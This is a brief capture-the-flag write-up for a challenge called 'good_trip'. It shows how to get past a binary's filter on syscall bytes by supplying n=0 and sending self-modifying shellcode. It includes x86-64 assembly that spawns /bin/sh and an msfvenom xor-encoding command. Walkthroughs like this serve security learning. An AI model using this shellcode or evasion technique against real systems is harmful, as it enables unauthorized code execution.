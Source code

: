 ## good_trip

- The binary first accepts a number (n), then it accepts bytecode

- It changes the memory which we entered to be non-writable, but it only changes the first n bytes

- It then ensures that our bytecode has no bytes corresponding to `syscall`, `sysenter` or `int 0x80`

- Simply lie that n = 0 so our bytecode remains writable, and make a self-modifying payload that gives us shell.

I used the following assembly:

```
    mov rsp, 0x1337131800	
    xor 	rsi,	rsi			
    push	rsi				
    mov 	rdi,	0x68732f2f6e69622f	 
    push	rdi
    push	rsp		
    pop	rdi				
    mov 	rax, 59
    xor rdx, rdx					
    syscall
```
- I first converted the assembly to bytecode using the assembler at https://defuse.ca/online-x86-assembler.htm#disassembly2

- I then saved the bytecode into `shellcode.bin` with the help of `shellcode.py`

- I then encoded it with the msfvenom x64/xor encoder: `./msfvenom -a x64 --platform linux -e x64/xor -f c < shellcode.bin`

- Use `solve.py` to send `b'0'` responding to the number of bytes, then send the encoded payload.